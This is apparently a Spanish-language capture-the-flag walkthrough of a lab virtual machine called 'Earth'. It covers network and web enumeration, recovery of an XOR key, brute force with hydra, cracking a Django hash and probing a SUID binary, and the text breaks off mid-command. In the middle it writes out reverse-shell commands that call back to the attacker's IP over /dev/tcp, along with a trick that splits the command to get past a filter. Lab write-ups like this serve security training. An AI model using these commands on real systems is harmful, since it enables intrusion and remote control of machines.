


# Earth

Iniciamos la investigación mirando las máquinas que hay en la red:

```bash
> sudo arp-scan -I eth0 --localnet
```


Parece que la máquina es de VirtualBox por el tipo de mac address que comienza por 08.

Hacemos un ping para ver si está online (o en cambio la info está cacheada)

```bash
> ping -c 1 192.168.1.53
```

```bash
PING 192.168.1.53 (192.168.1.53) 56(84) bytes of data.
64 bytes from 192.168.1.53: icmp_seq=1 ttl=64 time=15.4 ms

--- 192.168.1.53 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 15.385/15.385/15.385/0.000 ms
```
-------------------------------------------------------------------------------
Y ahora realizamos un escaneo rápido para ver qué servicios están corriendo en la máquina:

```bash
> sudo nmap -sS -n -p1-1000 -Pn 192.168.1.53 
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-22 14:31 EST
Nmap scan report for 192.168.1.53
Host is up (0.0052s latency).
Not shown: 987 filtered tcp ports (no-response), 10 filtered tcp ports (admin-prohibited)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:61:4D:85 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.44 seconds
```

-------------------------------------------------------------------------------
 
Realizamos una prueba más exhaustiva de los servicios, escaneando todos los puertos pero no encontramos nada más.

Miremos pues qué versiones de servicios están corriendo por esos puertos:

```bash
> sudo nmap -sCV -n -p22,80,443 192.168.1.53
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-26 17:17 EST
Nmap scan report for 192.168.1.53
Host is up (0.0060s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 5b2c3fdc8b76e9217bd05624dfbee9a8 (ECDSA)
|_  256 b03c723b722126ce3a84e841ecc8f841 (ED25519)
80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
|_http-title: Bad Request (400)
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Test Page for the HTTP Server on Fedora
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
MAC Address: 08:00:27:61:4D:85 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.59 seconds
```

-------------------------------------------------------------------------------

Ahora podemos mirar qué tecnologías web están corriendo en la máquina víctima.

```bash
> whatweb 192.168.1.53:80                                     
```

```bash
http://192.168.1.53:80 [400 Bad Request] Apache[2.4.51][mod_wsgi/4.7.1], 
Country[RESERVED][ZZ], HTML5, HTTPServer[Fedora Linux][Apache/2.4.51 (Fedora) 
OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9], IP[192.168.1.53],
OpenSSL[1.1.1l], Python[3.9], Title[Bad Request (400)], 
UncommonHeaders[x-content-type-options,referrer-policy]
```

```bash
> whatweb 192.168.1.53:443
```

```bash
http://192.168.1.53:443 [400 Bad Request] Apache[2.4.51][mod_wsgi/4.7.1],
Country[RESERVED][ZZ], HTTPServer[Fedora Linux][Apache/2.4.51 (Fedora)
OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9], IP[192.168.1.53],
OpenSSL[1.1.1l], Python[3.9], Title[400 Bad Request]
```

-------------------------------------------------------------------------------

Si inspeccionamos las webs mediante un navegador, vemos que ambos puertos dan Bad Request (400) como respuesta.


-------------------------------------------------------------------------------

Si tenemos en cuenta los resultados obtenidos en la última ejecución de nmap, podemos observar que se nombran 2 dominios relacionados con 192.168.1.53:

```bash
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
```

Como no sabemos si se estará efectuando virtual hosting en la máquina que dependa del hostname, vamos a añadir esas entradas al archivo /etc/hosts


Ahora vamos a mirar que vemos en el browser:


para http://192.168.1.53


para http://earth.local o https://earth.local o http://terratest.earth.local


para https://terratest.earth.local


-------------------------------------------------------------------------------

Y ahora volvemos a mirar whatweb pero con los dominios:

```bash
> whatweb http://earth.local                         
```

```bash
http://earth.local [200 OK] Apache[2.4.51][mod_wsgi/4.7.1], Cookies[csrftoken], Country[RESERVED][ZZ], Django, HTML5, HTTPServer[Fedora Linux][Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9], IP[192.168.1.53], OpenSSL[1.1.1l], Python[3.9], Title[Earth Secure Messaging], UncommonHeaders[x-content-type-options,referrer-policy], X-Frame-Options[DENY]
```

```bash
> whatweb https://terratest.earth.local
```

```bash
https://terratest.earth.local [200 OK] Apache[2.4.51][mod_wsgi/4.7.1], Country[RESERVED][ZZ], HTTPServer[Fedora Linux][Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9], IP[192.168.1.53], OpenSSL[1.1.1l], Python[3.9]
```                                                        
-------------------------------------------------------------------------------

Vamos a ver si podemos descubrir páginas no listadas:

```bash
> wfuzz --hc 400,404,403,405,500 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://earth.local/FUZZ     
```

```bash
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://earth.local/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================
000000014:   200        33 L     76 W       2595 Ch     "http://earth.local/"       
000000259:   301        0 L      0 W        0 Ch        "admin"                     
000045240:   200        33 L     76 W       2595 Ch     "http://earth.local/"       
000138620:   503        9 L      34 W       299 Ch      "u-god"                     

Total time: 0
Processed Requests: 220560
Filtered Requests: 220543
Requests/sec.: 0
```

Podemos ver que en la enumeración existe una página admin.

-------------------------------------------------------------------------------

Veamos qué pinta tiene la página admin en el navegador:


Y esta página abre un panel de autenticación:


Y si abrimos burpsuite, podemos ver como se envían los valores de los campos:


Como podemos ver hay una cookie:

```
Cookie: csrftoken=0n5M1RVM351oxMM7D7tnQE3h9BR7jniIswkjUGFXGHXd0JlJZcC6DZlgAR017BgS
```

También hay otro token como variable post que se envía junto al username y el password:

```
csrfmiddlewaretoken=w1i2HKd3nHrGde7kjXiemQZhxlCnSiijYaxzAzXe0jnvGbGWF2rX9bhgYBLhGwgt&username=username&password=password
```

Este token ya estaba mencionado en el código fuente de la página:

```html
<!doctype html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Earth Secure Messaging Admin</title>
 
<link rel="stylesheet" href="/static/styles.css">
</head>
<body>
<h1 class="aligncenter">Log In</h1>
<form method="post">


<input type="hidden" name="csrfmiddlewaretoken" value="I8gG1qDs8tH7XjGT1akqfpeilMx3nlRuBN1beVG1sMVsNEu3SKVeJZ0JaYxYUgWX">


<p><label for="id_username">Username:</label> <input type="text" name="username" autofocus autocapitalize="none" autocomplete="username" maxlength="150" required id="id_username"></p>
<p><label for="id_password">Password:</label> <input type="password" name="password" autocomplete="current-password" required id="id_password"></p>
<button type="submit">Log In</button>
</form>
</body>
</html>
```

No obstante este token va cambiando cada vez que se refresca la página.

-------------------------------------------------------------------------------

Por otra parte, la página principal también mostraba un formulario de entrada de datos que podemos probar:


Y esto es lo que se ve en burpsuite:


Como podemos ver, cada vez que se envía un mensaje se añade una entrada con un mensaje, al parecer codificado.
Y si enviamos varias veces el mismo mensaje, la codificación es la misma, por tanto, no parece que la codificación dependa de csrfmiddlewaretoken.


Para el mensaje "Esto es un mensaje de prueba." y para key "Test key." Esta es la codificación.
1116071b000e16595b3a451e114e1804134b740116545019101c4c354b

-------------------------------------------------------------------------------

Estaría bien averiguar el algoritmo de codificación porque así igual podríamos decodificar los otros mensajes.

Da la sensación de que esas cadenas de carácteres es código en hexadecimal, por lo que podemos probar a decodificarlo on xxd:

```bash
> echo 1116071b000e16595b3a451e114e1804134b740116545019101c4c354b | xxd -r -p > testmessage.txt
```

La secuencia de carácteres obtenida no es ascii, y contiene carácteres de control.

```bash
> xxd testmessage.txt 

00000000: 1116 071b 000e 1659 5b3a 451e 114e 1804  .......Y[:E..N..
00000010: 134b 7401 1654 5019 101c 4c35 4b         .Kt..TP...L5K
```

Sin embargo, la longitud del mensaje decodificado es muy similar a la del mensaje de entrada:

```bash
> echo 1116071b000e16595b3a451e114e1804134b740116545019101c4c354b | xxd -r -p | wc -c
29
```

```bash
> echo "Esto es un mensaje de prueba." | wc -c
30
```

ESto nos puede dar una pista del tipo de algoritmo usado en la codificación.

Además, si cambiamos la key, el mensaje codificado cambia:

```
Text: "Esto es un mensaje de prueba."
key: "0"
output: "7543445510554310455e105d555e43515a5510545510404245555251"
```

Así que podemos pensar que la key forma parte de los parámetros de entrada del algoritmo de codificación.

-------------------------------------------------------------------------------

Podríamos probar a hacer una XOR con ambos parámetros y ver qué devuelve, pero si no es algo así de simple, entonces se puede complicar mucho.
Antes de ponernos a programar un script para hacer una prueba, podemos buscar en internet a ver si hay alguna herramienta online de codificación/decodificación en formato XOR.

Google: XOR Encoder
> https://www.dcode.fr/xor-cipher

Introducimos el texto de prueba y la key de entrada (0 en ascii = 48 en decimal, 0x30 en hexadecimal) y si ponemos que nos de el resultado como lista de carácteres en hexadecimal, esto es lo que obyenemos:


Y vemos que tiene muy buena pinta, dado que la cadena de carácteres obtenido en la página principal para dicho texto con la misma clave, produce los mismos valores hexadecimales al decodificarla:

```bash
> echo 7543445510554310455e105d555e43515a5510545510404245555251 | xxd -r -p | xxd 
```

```
00000000: 7543 4455 1055 4310 455e 105d 555e 4351  uCDU.UC.E^.]U^CQ
00000010: 5a55 1054 5510 4042 4555 5251            ZU.TU.@BEURQ
```                                                              

Es decir el proceso que se realiza en la página earth.local para codificar un mensaje es:

Entramos un mensaje y sale un mensaje codificado.

```
mensaje -> XOR key -> xxd -> mensaje codificado
```

y, por tanto, el proceso de decodificación con XOR sería:

Entramos un mensaje codificado y sale el mensaje normal.

```
mensaje codificado -> xxd -r -> XOR key -> mensaje 
```

Crearemos un script para dados 2 parámetros de entrada, un fichero y un texto, nos genere un mensaje codificado/decodificado


-------------------------------------------------------------------------------

En el panel de autenticación, probamos entradas típicas como:

- admin / admin,
- admin / admin123,
- admin / 0n5M1RVM351oxMM7D7tnQE3h9BR7jniIswkjUGFXGHXd0JlJZcC6DZlgAR017BgS
- admin / (vacío) <- El formulario no lo permite.
- earth / admin
- earth / admin123
- earth / 0n5M1RVM351oxMM7D7tnQE3h9BR7jniIswkjUGFXGHXd0JlJZcC6DZlgAR017BgS

Ninguna de las credenciales nos da acceso. Así que probaremos a realizar un ataque de fuerza bruta,
para posibles usuario admin, earth o terratest

Nota: 0n5M1RVM351oxMM7D7tnQE3h9BR7jniIswkjUGFXGHXd0JlJZcC6DZlgAR017BgS es el valor extraño que hemos encontrado como cookie para la variable *csrftoke* en el código html. Buscando por google, al final averiguamos que esta variable en la cookie, forma parte de un mecanismo para evitar ataques tipo CSRF (Cross Site Request Forgery) y no nos va a llevar a ningún lugar al realizae la intrusión.

-------------------------------------------------------------------------------

Seguimos investigando realizando más enumeraciones. Estas son las enumeracione realizadas:

- Para earth.local

	- Subdominios

	```bash
	gobuster dns --domain earth.local --wordlist /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
		Nada
	```

- Para http://earth.local

	- Ficheros backup con gobuster

	```bash
	gobuster dir -d --url http://earth.local --wordlist /usr/share/SecLists/Discovery/Web-Content/common.txt -x txt,html,php,js,gz,tar.gz,zip 
		Nada
	```

	- Ficheros backup con gobuster añadiendo /

	```bash
	gobuster dir -f -d --url http://earth.local --wordlist /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x bak,php.bak,tar.gz,zip,txt 
		Nada
	```

	- Más bak files con wfuzz

	```bash
	wfuzz --hc 400,404,403,405,500 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://earth.local/FUZZ.bak
		Nada
	```

- Para http://earth.local/admin

	- Directorios 

	```bash
	wfuzz --hc 400,404,403,405,500 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://earth.local/admin/FUZZ
		000000053:   200        18 L     50 W       746 Ch      "login"                
		000001225:   302        0 L      0 W        0 Ch        "logout"               
		000045240:   200        15 L     33 W       306 Ch      "http://earth.local/admin/"
	```

- Para http://earth.local/static 

	- Ficheros y directorios con gobuster

	```bash
	gobuster dir --url http://earth.local/static --wordlist /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,js,gz,tar.gz,zip,txt
		Nada
	```
	
	- Ficheros backup con gobuster

	```bash
	gobuster dir -d --url http://earth.local/static --wordlist /usr/share/SecLists/Discovery/Web-Content/common.txt -x txt,html,php,js,gz,tar.gz,zip 
		Nada
	```

- Para http://terratest.earth.local

	- Directorios

	```bash
	wfuzz --hc 400,404,403,405,500 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://terratest.earth.local/FUZZ  
	```

	- php files
	```bash
	wfuzz --hc 400,404,403,405,500 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://terratest.earth.local/FUZZ.php
	```

	- js files
	```bash
	wfuzz --hc 400,404,403,405,500 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://terratest.earth.local/FUZZ.js
	```

- Para https://terratest.earth.local:443

	- Directorios

	```bash
	wfuzz --hc 400,404,403,405,500 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt https://terratest.earth.local:443/FUZZ
	```

	- Ficheros backup con gobuster

	```bash
	gobuster dir -d -k --url https://terratest.earth.local:443 --wordlist /usr/share/SecLists/Discovery/Web-Content/common.txt -x txt,html,php,js,gz,tar.gz,zip 
		/index.html           (Status: 200) [Size: 26]
		/index.html           (Status: 200) [Size: 26]
		/robots.txt           (Status: 200) [Size: 521]
		/robots.txt           (Status: 200) [Size: 521]
	```

-------------------------------------------------------------------------------

Como podemos ver, hay un fichero **robots.txt** que podemos intentar mirar:

https://terratest.earth.local/robots.txt

```
User-Agent: *
Disallow: /*.asp
Disallow: /*.aspx
Disallow: /*.bat
Disallow: /*.c
Disallow: /*.cfm
Disallow: /*.cgi
Disallow: /*.com
Disallow: /*.dll
Disallow: /*.exe
Disallow: /*.htm
Disallow: /*.html
Disallow: /*.inc
Disallow: /*.jhtml
Disallow: /*.jsa
Disallow: /*.json
Disallow: /*.jsp
Disallow: /*.log
Disallow: /*.mdb
Disallow: /*.nsf
Disallow: /*.php
Disallow: /*.phtml
Disallow: /*.pl
Disallow: /*.reg
Disallow: /*.sh
Disallow: /*.shtml
Disallow: /*.sql
Disallow: /*.txt
Disallow: /*.xml
Disallow: /testingnotes.*
```

Vemos que hay una entrada para no permitir el acceso a ficheros ** "testingnotes.*" ** a los rastreadores.

(para información sobre como funiona los ficheros *robots.txt*:

https://developers.google.com/search/docs/crawling-indexing/robots/robots_txt?hl=es#syntax)

-------------------------------------------------------------------------------

Probamos a ver si existe un fichero como **testingnotes.txt** 
En caso de no encontramos nada, siempre podríamos intentar realizar una fuerza bruta sobre extensiones, pero en este caso no es necesario.

https://terratest.earth.local/testingnotes.txt

```
Testing secure messaging system notes:
*Using XOR encryption as the algorithm, should be safe as used in RSA.
*Earth has confirmed they have received our sent messages.
*testdata.txt was used to test encryption.
*terra used as username for admin portal.
Todo:
*How do we send our monthly keys to Earth securely? Or should we change keys weekly?
*Need to test different key lengths to protect against bruteforce. How long should the key be?
*Need to improve the interface of the messaging interface and the admin panel, it's currently very basic.
```

Como vemos la codificación de los mensajes se realizaba utilizando XOR

También se puede ver que se utiliza un fichero **testdata.txt** para testear la encriptación, podemos mirar si podemos acceder al fichero desde la web, y en ese caso podríamos obtener la key utilizada.

Vemos que el username para el portal de administración es **terra**.

Así pues, mientras investigamos si podemos obtener la key vamos a realizar un ataque de fuerza bruta para entrar en el panel de aministración.

-------------------------------------------------------------------------------

Utilizando *hydra* realizamos el ataque de fuerza bruta para intentar entrar en el panel:

```bash
> hydra -l terra -P /usr/share/wordlists/rockyou.txt -f -u -vV terratest.earth.local http-form-post "/admin/login:username=^USER^&password=^PASS^:Please enter a correct username and password"
```

Esta vía no lleva a ningún lado. 

-------------------------------------------------------------------------------

Vemos que tenemos acceso al fichero **testdata.txt**.

https://terratest.earth.local/testdata.txt

Este es el contenido del fichero:

```bash
> cat testdata.txt
According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.
```

-------------------------------------------------------------------------------

Matemáticamente la funcion XOR se comporta de la siguiente manera:

```
a XOR b = c
y
c XOR b = a

pero también:

a XOR c = b
o
c XOR a = b
```

Si sustituimos las letras por palabras con significado:


```
Mensaje XOR clave = MensajeEncriptado

y para realizar el paso inverso:

MensajeEncriptado XOR clave = Mensaje

pero también:

Mensaje XOR MensajeEncriptado = clave
o
MensajeEncriptado XOR Mensaje = clave

Utilizaremos como segundo parámetro el texto de prueba.
```

```bash
> key=$(cat testdata.txt)
```

Ahora hemos de coger uno de los mensajes encriptados que aparecen inicialmente en la web y lo utilizaremos como mensaje fuente:

```bash
> echo 2402111b1a0705070a41000a431a000a0e0a0f04104601164d050f070c0f15540d1018000000000c0c06410f0901420e105c0d074d04181a01041c170d4f4c2c0c13000d430e0e1c0a0006410b420d074d55404645031b18040a03074d181104111b410f000a4c41335d1c1d040f4e070d04521201111f1d4d031d090f010e00471c07001647481a0b412b1217151a531b4304001e151b171a4441020e030741054418100c130b1745081c541c0b0949020211040d1b410f090142030153091b4d150153040714110b174c2c0c13000d441b410f13080d12145c0d0708410f1d014101011a050d0a084d540906090507090242150b141c1d08411e010a0d1b120d110d1d040e1a450c0e410f090407130b5601164d00001749411e151c061e454d0011170c0a080d470a1006055a010600124053360e1f1148040906010e130c00090d4e02130b05015a0b104d0800170c0213000d104c1d050000450f01070b47080318445c090308410f010c12171a48021f49080006091a48001d47514c50445601190108011d451817151a104c080a0e5a > encodedmsg.txt
```

Recordemos que este texto ha sufrido el proceso de ser convertido a texto donde cada valor codificado se representa en hexadecimal.
Antes de realizar el proceso de obtención de la key original, debemos pasar los datos de hexadeimal a mensaje encritpado con XOR.

```bash
> cat encodedmsg.txt | xxd -r -d > encodedmesg.dat 
```

Y ya podemos realizar el proceso de obtención de la clave original utilizando el script que creamos al principio.

```bash
> python3 xordecode.py encodedmsg.dat $key 
```

```bash
earthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimat
```

Así pues la clave utilizada parece ser la siguiente *earthclimatechangebad4humans*

-------------------------------------------------------------------------------

Probando en el panel de login con el username *terra* y el password *earthclimatechangebad4humans* logramos acceder al sistema:



-------------------------------------------------------------------------------

Vemos que en el panel podemos escribir commandos como si de una webshell se tratara:



-------------------------------------------------------------------------------

Vamos a intentar crear una reverse shell para poder operar con más facilidad:

Estos podrían ser los comandos a utilizar:

```bash
> sh -i >& /dev/tcp/192.168.1.80/443 0>&1
```

```bash
> bash -c "/bin/bash -i >& /dev/tcp/192.168.1.80/443 0>&1"
```

Al introducir cualquiera de los anteriores comandos en la webshell, vemos que nos da un mensaje de error y da la sensación que tienen cierto código de control para evitar posibles reverse shells: 

Una posible idea es partir el comando en 2 partes de manera que no pueda detectar la dirección ip

```bash
> echo "sh -i >& /dev/tcp/192.168." > /tmp/rshell.txt
> echo "1.80/443 0>&1" >> /tmp/rshell.txt
```

El fichero resultante contiene 2 lineas, separadas por un carácter newline \n, así que lo que podemos hacer es eliminar esos caracteres con el comando **tr**

```bash
> cat /tmp/rshell.txt | tr -d "\n" > /tmp/rshell.sh
```

Como podemos ver, ya se ha creado el shell script correctamente, y no tiene permisos de ejecución.

```bash
> ls -la /tmp/rshell.sh

```
Le damos los permisos:

```bash
> chmod +x /tmp/rshell.sh
```
y ya podemos ver que está listo para ejecutarse.

```bash
> ls -la /tmp/rshell.sh
Command output: -rwxr-xr-x 1 apache apache 39 Jan 29 00:44 /tmp/rshell.sh
```

lo ejecutamos y ya tenemos la reverse shell establecida.

-------------------------------------------------------------------------------

Tras el tratamiento típico de la reverse shell para poder operar con mayor facilidad.

Tras esto, intentamos averiguar donde está el código que controla esta webshell.


```bash
cd /var/earth_web
bash-5.1$ > ls -la

total 148
drwxrwxrwx.  4 root root    101 Jan 28 22:02 .
drwxr-xr-x. 22 root root   4096 Oct 12  2021 ..
-rwxrwxrwx.  1 root root 139264 Jan 28 22:02 db.sqlite3
drwxr-xr-x.  3 root root    108 Oct 13  2021 earth_web
-rwxr-xr-x.  1 root root    665 Oct 11  2021 manage.py
drwxr-xr-x.  6 root root    204 Oct 13  2021 secure_message
-rw-r--r--.  1 root root     45 Oct 12  2021 user_flag.txt
```
Y en este directorio obtenemos la flag del usuario:

```bash
> cat user_flag.txt 
[user_flag_3353b67d6437f07ba7d34afd7d2fc27d]
```

-------------------------------------------------------------------------------

Como podemos ver, en este directorio podemos encotrar la base de datos utilizada para el servicio web utilizado.

```bash
bash-5.1$ > sqlite3 db.sqlite3

```

Miramos qué tablas contiene la base de datos:

```sql
sqlite> .tables

auth_group                       django_admin_log               
auth_group_permissions           django_content_type            
auth_permission                  django_migrations              
auth_user                        django_session                 
auth_user_groups                 secure_message_encryptedmessage
auth_user_user_permissions   
```
y ahora podemos ver qué usuarios hay almacenados en la tabla **auth_user**

```sql
sqlite> select * from auth_user;

1|pbkdf2_sha256$260000$r1dLc8SJHJ2HpUhE8R9Vwu$ed5KqOU5NXiXYRGiK4JCBHAezQS+OWdWBpeE9z33y/4=|2023-01-28 22:02:46.603398|1|terra||terra@earth.local|1|1|2021-10-12 23:13:50.794509|
```

-------------------------------------------------------------------------------

A priori ese password debería ser el mismo que hemos utilizado en el panel de login para entrar en la CLI de administración, pero podemos comprobarlo utilizando hashcat

El tipo de hash **pbkdf2_sha256** es el usado por Django. El hash encontrado el la base de datos, lo guardamos en hash.txt y el password del panel de login en password.txt

```bash
> hashcat -m 10000 hash.txt password.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-4200M CPU @ 2.50GHz, 1441/2947 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: password.txt
* Passwords.: 1
* Bytes.....: 29
* Keyspace..: 1
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.           

pbkdf2_sha256$260000$r1dLc8SJHJ2HpUhE8R9Vwu$ed5KqOU5NXiXYRGiK4JCBHAezQS+OWdWBpeE9z33y/4=:earthclimatechangebad4humans
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10000 (Django (PBKDF2-SHA256))
Hash.Target......: pbkdf2_sha256$260000$r1dLc8SJHJ2HpUhE8R9Vwu$ed5KqOU...33y/4=
Time.Started.....: Sun Jan 29 08:56:27 2023 (2 secs)
Time.Estimated...: Sun Jan 29 08:56:29 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (password.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        0 H/s (1.11ms) @ Accel:96 Loops:512 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1/1 (100.00%)
Rejected.........: 0/1 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:259584-259999
Candidate.Engine.: Device Generator
Candidates.#1....: earthclimatechangebad4humans -> earthclimatechangebad4humans
Hardware.Mon.#1..: Util: 58%

Stopped: Sun Jan 29 08:56:32 2023
```

Como podemos ver por la línea ** Status...........: Cracked ** Hash y password coinciden, por lo que no hace falta esa credencial no nos aporta nada nuevo.

-------------------------------------------------------------------------------

Probamos a encontrar ficheros con permisos de ejecución privilegiados:

```bash
> bash-5.1$ find / -perm /4000 2>/dev/null
```

``` bash
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/bin/sudo
/usr/bin/reset_root
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
```

-------------------------------------------------------------------------------

Podemos intentar mirar qué capabilities tenemos dsponibles en el sistema:

```bash
sh-5.1$ getcap                  
sh: getcap: command not found
```
Vemos que el comando getcap no está disponible, por lo que no podremos mirar las capabilities con el siguiente comando:

```bash
getcap -r / 2>/dev/null 
```

-------------------------------------------------------------------------------

Si miramos el comando reset root, no encontramos información por internet. Vemos que el comando no es un script ejecutable, sino un binario.
Al ejecutarlo obtenemos la siguiente salida:
                                                   
```bash
sh-5.1$ reset_root 
CHECKING IF RESET TRIGGERS PRESENT...
RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
```

Podemos observar un poco su contenido utilizando el comando strings:

```bash
> strings /usr/bin/reset_root
...
H=@@@
paleblueH
]\UH
credentiH
als rootH
:theEartH
hisflat
[]A\A]A^A_
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
/usr/bin/echo 'root:Earth' | /usr/sbin/chpasswd
RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
;*3$"
GCC: (GNU) 11.1.1 20210531 (Red Hat 11.1.1-3)
GCC: (GNU) 11.2.1 20210728 (Red Hat 11.2.1-1)
3g979
running gcc 11.1.1 20210531
annobin gcc 11.1.1 20210531
GA*GOW
GA+stack_clash
GA*cf_protection
GA*FORTIFY
GA+GLIBCXX_ASSERTIONS
GA+omit_frame_pointer
...

```

Gracias a esto podemos intuir que el comando lo que hace es cambiar el password de root si se acontecen unas determinadas condiciones.
Aparecen como posibles credenciales/passwords las palabras: paleblue, theEarthisflat, o Earth. Esta última es la que parece que se establece cuando se cambie el password con el comando reset_root.

Podemos intentar mirar qué ocurre con ltrace, pero para ello descargaremos el binario de la máquina víctima a la máquina local nuestra como atacantes.

```bash
> ltrace ./reset_root 
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
)                 = 38
access("/dev/shm/kHgTFI5G", 0)                              = -1
access("/dev/shm/Zw7bV9U5", 0)                              = -1
access("/tmp/kcM0Wewe", 0)                                  = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
)                 = 44
+++ exited (status 0) +++
```

Por lo que parece, se espera tener acceso a unos ficheros específicos en /dev/shm y /tmp, así que podemos crear dichos ficheros y probar de nuevo el comando a ver qué ocurre:

```bash
sh-5.1$ touch /tmp/kcM0Wewe
